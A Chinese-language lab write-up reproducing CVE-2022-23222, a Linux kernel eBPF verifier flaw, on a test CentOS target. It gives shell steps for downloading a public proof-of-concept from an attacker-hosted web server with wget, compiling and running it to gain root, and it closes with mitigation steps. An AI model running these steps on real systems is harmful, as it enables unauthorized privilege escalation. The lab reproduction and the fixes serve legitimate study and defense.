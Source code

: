 # Linux-eBPF提权

漏洞复现- Linux Kernel ebpf权限提升漏洞(CVE-2022-23222)

**0x00 前言**

> 由于内核在执行用户提供的 eBPF 程序前缺乏适当的验证，攻击者可以利用这个漏洞获取 root 权限。该漏洞是由于 Linux 内核的 BPF 验证器存在一个空指针漏洞，没有对`*_OR_NULL` 指针类型进行限制，允许这些类型进行指针运算。

利用条件

> 5.8 ≤ Linux Kernel ≤ 5.16（Linux Kernel 5.10.92，5.15.15，5.16.1 不受影响）

`uname -a`查看内核版本

|          | 攻击者         | 靶机（gcc）    |
| -------- | -------------- | -------------- |
| 操作系统 | kali           | CentOS 7       |
| IP地址   | 192.168.12.135 | 192.168.12.131 |
| 内核     |                | 5.8.7          |

> 这里使用普通用户登录靶机，进行提权，前期入侵操作默认完成



**0x01 获取POC代码**

```shell
https://gitee.com/mirrors_gladiopeace/CVE-2022-23222/tree/master
```

将文件存入`/tmp`目录下，开启web服务

```shell
cd /tmp

python -m http.server 8080
```

**0x02 在靶机运行poc代码**

> 如果靶机没有unzip，可以重新使用tar压缩归档

```shell
# 获取漏洞利用工具，此处在kali上使用python开启web服务器，并让被攻击主机下载提权工具源码。
wget http://192.168.12.135:8080/CVE-2022-23222-master.zip

# 解压，编译，安装。
unzip CVE-2022-23222-master.zip
cd CVE-2022-23222-master
make		
# 如果靶机编译出错，可以在自己的环境上编译完成下载编译好的文件
wget http://192.168.12.135:8080/CVE-2022-23222-master/exploit
chmod a+x exploit

# 进行提权。
./exploit 

# 查看
id
whoami
# 是root就成功
```

![image-20230225181249149](https://s2.loli.net/2023/02/27/b93ABMl7TyGua2Q.png)

**0x03 修复方法**

1、非root用户禁止调用ebpf。

```shell
echo 1 > /proc/sys/kernel/unprivileged_bpf_disabled
```

- 值为0表示允许非特权用户调用bpf。
- 值为1表示禁止非特权用户调用bpf且该值不可再修改，只能重启内核后修改。
- 值为2表示禁止非特权用户调用bpf，可以再次修改为0或1。

2、更新系统内核为已修复该漏洞的版本。